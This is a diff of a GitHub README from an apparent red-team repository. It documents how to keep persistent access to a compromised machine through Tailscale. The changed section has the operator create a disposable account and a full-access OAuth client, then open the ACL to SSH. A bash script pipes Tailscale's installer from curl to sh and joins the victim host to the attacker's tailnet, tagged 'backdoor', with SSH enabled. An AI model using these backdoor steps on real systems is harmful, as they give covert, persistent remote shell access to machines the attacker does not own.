

Before and after one commit to R3DRUN3/sploitcraft, a Markdown page: red-team-infra/README.md, 2 parts joined by grey strips. Rendered like a GitHub page; pictures changed too: red-team-infra/images/tailscale-oauth-key.png (added).

````diff
--- a/red-team-infra/README.md
+++ b/red-team-infra/README.md
@@ -243,11 +243,10 @@ Therefore, it is likely that it will not be restricted by the company's network
 First of all it is recommended to create a new, disposable Google (or Github) Account for every red teaming campaign.
 Once you have a google account associated to the campaign you can use that in order to [*create a new Tailscale account*](https://login.tailscale.com/start).
 
-Skip the introduction and go straight to the [*settings/keys*](https://login.tailscale.com/admin/settings/keys) section in order to create a new auth key:
+Skip the introduction and go straight to the [*settings/oauth*](https://login.tailscale.com/admin/settings/oauth) section in order to create a new oauth client with full access:
 
-![authkey](./images/tailscale-auth-key.png)
+![oauthkey](./images/tailscale-oauth-key.png)
 
-Save the generated key, you will need it in order to enable access from the compromised machine to your tailnet.
-Now go to the [*Access Controls*](https://login.tailscale.com/admin/acls/file) Tab of the Tailscale Admin panel
-and modify the “ssh” section of the default Access List by setting the “action” property to “accept”:
+Save the generated client ID and Secret, you will need them in order to enable access from the compromised machine to your tailnet.
+Now go to the [*Access Controls*](https://login.tailscale.com/admin/acls/file) Tab of the Tailscale Admin panel, delete the current ACL configuration and paste the following:
 
@@ -260,26 +351,27 @@ In order to do that, you will need the following bash script:
 
 # Check if an argument (auth key) is provided
 if [ -z "$1" ]; then
-  echo "Usage: $0 <auth-key>"
+  echo "Usage: $0 <oauth-key>"
   exit 1
 fi
 
-AUTH_KEY=$1
+OAUTH_KEY=$1
 
 # Install Tailscale
 sudo curl -fsSL https://tailscale.com/install.sh | sh
 
 # Start Tailscale with the provided auth key and enable SSH
-sudo tailscale up --auth-key=$AUTH_KEY --ssh
+sudo tailscale up --auth-key=$OAUTH_KEY --advertise-tags=tag:backdoor --ssh
 
 # Show Tailscale status
 sudo tailscale status
 ```
 
+
 Launch the script with the following command:
 
 ```console
-sh persistence.sh <YOUR-TAILSCALE-AUTH-KEY-HERE>
+sh tailscale.sh <YOUR-TAILSCALE-OAUTH-KEY-HERE>
 ```
 
 If everything went good, you should see an output similar to the following:
````
Also changed, not shown: other parts of red-team-infra/README.md (+94 -2 lines).
